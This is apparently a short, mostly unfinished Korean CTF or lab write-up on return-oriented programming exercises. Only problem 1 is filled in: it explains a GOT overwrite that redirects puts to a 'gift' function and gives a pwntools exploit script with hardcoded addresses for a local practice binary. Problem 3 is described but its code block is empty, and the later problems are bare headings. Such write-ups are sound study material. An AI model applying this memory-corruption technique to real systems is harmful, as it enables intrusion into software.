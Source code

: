 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 one gadget을 활용할 수 있다.




```python



```




## problem 3-2




## problem 4




## problem 5




## problem 6






